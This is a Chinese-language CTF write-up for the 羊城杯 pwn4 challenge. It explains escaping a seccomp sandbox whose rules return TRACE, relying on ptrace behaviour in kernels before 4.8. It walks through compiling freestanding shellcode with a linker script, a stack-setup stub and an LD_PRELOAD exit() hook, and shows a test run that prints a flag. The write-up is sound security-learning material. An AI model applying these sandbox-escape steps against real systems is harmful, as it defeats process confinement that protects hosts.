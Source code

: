 ```yaml
---
title: 羊城杯pwn4 - TRACE 沙箱逃逸
date: 2024-09-15 14:09:18
tags: TRACE 沙箱逃逸
---
```


### TRACE 沙箱逃逸

本题目为羊城杯 pwn4，为一道沙箱逃逸题目。首先查看沙箱规则，注意到不像通常沙箱的行为直接`return KILL`，而是`return TRACE`。

```
$ seccomp-tools dump ./pwn
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x05 0x00 0x40000000  if (A >= 0x40000000) goto 0009
 0004: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0009
 0005: 0x15 0x03 0x00 0x00000101  if (A == openat) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x7ff00000  return TRACE
```

查阅资料发现`return TRACE`行为是由`SECCOMP_RET_TRACE`来控制，同时查阅第二节seccomp的手册对应的介绍。注意到两点（1）沙箱规则中的系统调用发生时会去通知该进程的tracer，tracer可以`skip`或者 `change to a valid system call`来处理本次系统调用。（2）4.8版本内核之前，在tracer被通知之后，沙箱就会不再检测，从而失效。第二点存在逃逸的可能，同时括号内说了安全的seccomp-based的沙箱应该禁止ptrace系统调用。

```
$ man 2 seccomp
...
SECCOMP_RET_TRACE
        When  returned, this value will cause the kernel to attempt to notify a ptrace(2)-based tracer prior to
        executing the system call.  If there is no tracer present, the system call is not executed and  returns
        a failure status with errno set to ENOSYS.

        A  tracer  will  be notified if it requests PTRACE_O_TRACESECCOMP using ptrace(PTRACE_SETOPTIONS).  The
        tracer will be notified of a PTRACE_EVENT_SECCOMP and the SECCOMP_RET_DATA portion of the filter's  re‐
        turn value will be available to the tracer via PTRACE_GETEVENTMSG.

        The  tracer  can  skip  the  system  call by changing the system call number to -1.  Alternatively, the
        tracer can change the system call requested by changing the system call to a valid system call  number.
        If  the  tracer asks to skip the system call, then the system call will appear to return the value that
        the tracer puts in the return value register.

        Before kernel 4.8, the seccomp check will not be run again after the tracer is notified.   (This  means
        that, on older kernels, seccomp-based sandboxes must not allow use of ptrace(2)—even of other sandboxed
        processes—without extreme care; ptracers can use this mechanism to escape from the seccomp sandbox.)

        Note that a tracer process will not be notified if another filter returns an action value with a prece‐
        dence greater than SECCOMP_RET_TRACE.
```

由于没办法确定远程环境的内核版本，同时查询到22年Google CTF有类似的[题目](https://n132.github.io/2022/07/04/S2.html)。作者进行了详尽的分析，它的环境应该是对执行二进制文件逃逸，但是本题只能用shellcode逃逸。把作者的exp拿来验证，确定本地可行。

接下来的工作就是怎么把作者的exp转化成shellcode放到本题来执行，这是我写这篇的目的。exp.cc中存在各种库函数的调用，还有fork之后父子进程的处理，手写shellcode比较复杂，所以尽量得借助于编译器。

1. 去除库函数的依赖

需要手动实现`syscall`和`memset`.
```c
static __inline long syscall6(long n, long a1, long a2, long a3, long a4, long a5, long a6)
{
  unsigned long ret;
  register long r10 __asm__("r10") = a4;
  register long r8  __asm__("r8")  = a5;
  register long r9  __asm__("r9")  = a6;
  __asm__ __volatile__ ("syscall" : "=a"(ret) : "a"(n), "D"(a1), "S"(a2),
              "d"(a3), "r"(r10), "r"(r8), "r"(r9) : "rcx", "r11", "memory");
  return ret;
}

static __inline void zero(unsigned char *s, size_t n) {
  while (n--) *s++ = 0;
}
```

2. freestanding的编译

为了保证shellcode尽可能短，不需要lib库的链接以及各种安全机制。

```Makefile
$(CC) -w -c shellcode.S -o shellcode.o
$(CC) -ffreestanding -w -c exp.c -o exp.o
```

3. 链接到指定地址

在题目中前段可以实现任意shellcode的执行，因此可以通过mmap去映射一段指定地址的内存，这里我们那使用0x800000举例。我们需要把编译出的shellcode以及自定义的函数链接到0x800000地址上，这可以通过给ld一个`linker.ld`的配置。

```Makefile
$(LD) shellcode.o exp.o -o $@ -T linker.ld
```
我们需要把所有的内容都集成到text段，因此把text段设置为可读可写可执行。
```
PHDRS
{
    text PT_LOAD FLAGS(7);  /* 7 = Read + Write + Execute */
}

SECTIONS
{
    . = 0x800000;
    .text : 
    {
        *(.text)
        *(.data)
        *(.bss)
    } : text
}
```

4. 提供初始化

通常在正常执行`execve`切换进程镜像时，操作系统内核会为进程申请栈空间，之后再返回到用户态的入口点，这样_start函数不需要自己处理栈内存，这是ABI规定的。但是我们必须在shellcode的入口点提供栈地址的初始化，因为编译器编译出的函数是需要使用栈的内存的。

栈空间不需要太大，根据函数rbp-rsp的间距和函数调用链的长度判断。这里没用选择使用PC偏移寻址，因此需要mmap的内存和链接地址一样，而使用PC偏移寻址在下文会执行失败。

```ASM
_start:
    lea rsp, [buf + 0x200]
    jmp exp
```

5. 测试shellcode

这是编译，链接，copy的流程。最后的exp.bin极为shellcode，可以使用xxd转化为头文件`exp.h`。

```
gcc -w -c shellcode.S -o shellcode.o
gcc -ffreestanding -w -c exp.c -o exp.o
ld shellcode.o exp.o -o exp -T linker.ld
objcopy -O binary -j .text exp exp.bin

xxd -i exp.bin > exp.h
```

我们通过劫持pwn题目的exit函数去验证执行shellcode能否绕过沙箱。

```C
#define _GNU_SOURCE
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>

#include "exp.h"

int probe(unsigned long addr, char* shellcode, int len) {
    void *rwx = mmap(
        (void*)addr, len, 
        PROT_READ | PROT_WRITE | PROT_EXEC, 
        MAP_PRIVATE | MAP_ANONYMOUS, 
        -1, 
        0
    );
    if (rwx == MAP_FAILED) {
        perror("mmap");
        return EXIT_FAILURE;
    }
    memcpy(rwx, shellcode, len);

    // Jump to the mapped memory and execute
    void (*func)() = rwx;
    func();

    // Clean up
    munmap(rwx, len);\
    return EXIT_SUCCESS;
}

typedef void (*exit_fn_t)(int status);

void exit(int status) {
    printf("hooked exit(%d)\n", status);
    probe(0x800000, exp_bin, exp_bin_len);
    
    exit_fn_t real_exit = (exit_fn_t)dlsym(RTLD_NEXT, "exit");
    real_exit(status);
}
```

劫持exit测试shellcode发现成功绕过沙箱。

```
$ LD_PRELOAD=./hook.so ./pwn
1. Add note
2. Delete note
3. Edit note
4. Show note
5. Exit
>5
hooked exit(0)
flag{aaaaaaaaaa}
^C
```


### Speedrun

本文的贡献是介绍了利用编译的能力去创造出一个具有复杂执行流的shellcode的方法。全部的代码放到[这里](https://github.com/Giles-one/DeadSeaScrolls/YCB-pwn4)

```
$ make
gcc -w -c shellcode.S -o shellcode.o
gcc -ffreestanding -w -c exp.c -o exp.o
ld shellcode.o exp.o -o exp -T linker.ld
objcopy -O binary -j .text exp exp.bin
gcc -ggdb -o probe probe.c
xxd -i exp.bin > exp.h
gcc -ggdb -w -shared -fPIC -o hook.so hook.c
$ LD_PRELOAD=./hook.so ./pwn
1. Add note
2. Delete note
3. Edit note
4. Show note
5. Exit
>5
hooked exit(0)
flag{aaaaaaaaaa}
^C
```


